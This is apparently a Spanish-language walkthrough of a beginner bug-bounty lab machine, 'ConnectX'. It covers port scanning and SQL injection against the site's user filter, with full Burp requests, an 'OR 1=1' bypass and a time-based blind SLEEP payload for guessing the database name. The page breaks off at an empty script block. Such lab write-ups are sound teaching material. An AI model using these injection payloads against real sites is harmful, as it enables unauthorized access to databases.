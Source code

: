 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ConnectX BugBountyLabs (Principiante)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bugbountylabs_connectx.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
python3 bugbountylabs_connectx.py
```

Info:

```
██████╗ ██╗   ██╗ ██████╗     ██████╗  ██████╗ ██╗   ██╗███╗   ██╗████████╗██╗   ██╗    ██╗      █████╗ ██████╗ ███████╗
██╔══██╗██║   ██║██╔════╝     ██╔══██╗██╔═══██╗██║   ██║████╗  ██║╚══██╔══╝╚██╗ ██╔╝    ██║     ██╔══██╗██╔══██╗██╔════╝
██████╔╝██║   ██║██║  ███╗    ██████╔╝██║   ██║██║   ██║██╔██╗ ██║   ██║    ╚████╔╝     ██║     ███████║██████╔╝███████╗
██╔══██╗██║   ██║██║   ██║    ██╔══██╗██║   ██║██║   ██║██║╚██╗██║   ██║     ╚██╔╝      ██║     ██╔══██║██╔══██╗╚════██║
██████╔╝╚██████╔╝╚██████╔╝    ██████╔╝╚██████╔╝╚██████╔╝██║ ╚████║   ██║      ██║       ███████╗██║  ██║██████╔╝███████║
╚═════╝  ╚═════╝  ╚═════╝     ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝   ╚═╝      ╚═╝       ╚══════╝╚═╝  ╚═╝╚═════╝ ╚══════╝

Fundadores
El Pingüino de Mario
Curiosidades De Hackers

Cofundadores
Zunderrub
CondorHacks
Lenam

Descargando la máquina connectx, espere por favor...

[########################################] 100%
Descarga completa.
La IP de la máquina connectx es -> 172.17.0.2

Presiona Ctrl+C para detener la máquina
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 07:26 EDT
Nmap scan report for 192.168.1.151
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://connectx.bbl/
MAC Address: 08:00:27:7D:45:87 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds
```

Vemos que hay un puerto `80`, si entramos en el veremos que nos pide un dominio llamado `connectx.bbl`, para poder resolverlo lo añadiremos en nuestro archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>               connectx.bbl
```

Lo guardamos y volveremos a cargar la pagina, una vez echo esto veremos una pagina en la que podemos registrarnos o iniciar sesion.

Vamos a comprobar si fuera el `login` vulnerable a un `SQL Injection`, pero vemos que no, por lo que vamos a registrarnos con cualquier usuario y si bajamos un poco veremos una opcion en la que se pueden filtrar por usuarios.

Podemos deducir que puede ser un punto de un `SQL Injection` si la entrada no se sanitiza de forma correcta, por lo que vamos a capturar la peticion de `filtrar` con `BurpSuite` y vamos a ponerle una `'` despues del `username` quedando de esta forma:

```
POST /home.php HTTP/1.1
Host: connectx.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://connectx.bbl
Connection: keep-alive
Referer: http://connectx.bbl/home.php
Cookie: PHPSESSID=2p22d88s8slu2kcae23emj941e
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin'
```

Ahora si seleccionamos antes de enviar que nos muestre la respuesta del servidor:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Cuando lo enviemos veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

Vemos que nos esta dando un `error 500` por lo que con esto podemos saber que si es vulnerable a un `SQL Injection` ya que se lo esta tragando y esta cerrando la consulta proporcionando un error.

Ahora si intentamos esto otro:

```
POST /home.php HTTP/1.1
Host: connectx.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://connectx.bbl
Connection: keep-alive
Referer: http://connectx.bbl/home.php
Cookie: PHPSESSID=2p22d88s8slu2kcae23emj941e
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin' OR 1=1-- -
```

Veremos que funciona en este caso seria un `200 OK` y nos muestra los `post` del usuario `admin` todos, por lo que esta funcionando esta inyeccion.

Vamos a intentar sacar el nombre de la base de datos, intentando el siguiente `payload`:

```
admin' or if(substr(database(),1,1)='c', sleep(5), 1)-- -
```

Tendra que quedar algo asi:

```
POST /home.php HTTP/1.1
Host: connectx.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://connectx.bbl
Connection: keep-alive
Referer: http://connectx.bbl/home.php
Cookie: PHPSESSID=2p22d88s8slu2kcae23emj941e
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=admin'+or+if(substr(database(),1,1)='c',+sleep(5),+1)--+-
```

Vemos que si nos tarda `5` segundos en responder por lo que sabemos que la primera letra de la base de datos es `c`, puse esta letra de primeras ya que la maquina se llama `connectX`, pero vamos a realizar esto de forma un poco mas automatizada para sacar el nombre entero.

### Explicacion de payload

**`admin'`** → Cierra la comilla de la entrada esperada en SQL.**`OR`** → Introduce una nueva condición en la consulta SQL.**`IF(SUBSTR(DATABASE(),1,1)='c', SLEEP(5), 1)`** → Esta es la parte clave:\
\- `DATABASE()` → Obtiene el nombre de la base de datos actual.\
\- `SUBSTR(DATABASE(),1,1)` → Extrae el primer carácter del nombre de la base de datos.\
\- **Comparación**: Si este primer carácter es `'c'`, entonces:\
\- **`SLEEP(5)`** → La consulta esperará 5 segundos antes de continuar.\
\- Si el carácter **NO** es `'c'`, la consulta simplemente devuelve `1` y se ejecuta sin demora.**`--+-`** → Comentario para ignorar el resto de la consulta original.

***

#### **¿Qué logra este payload?**

* **Si la página tarda 5 segundos en responder**, significa que la primera letra de la base de datos es **"c"**.
* Si no hay retraso, se prueba con otro carácter.
* Se repite el proceso para la segunda letra, tercera, etc., hasta reconstruir todo el nombre de la base de datos.

Este método se usa en ataques de **SQL Injection Time-Based Blind**, cuando no se pueden ver directamente los resultados de la consulta en pantalla.

> databaseName.py

```python
```
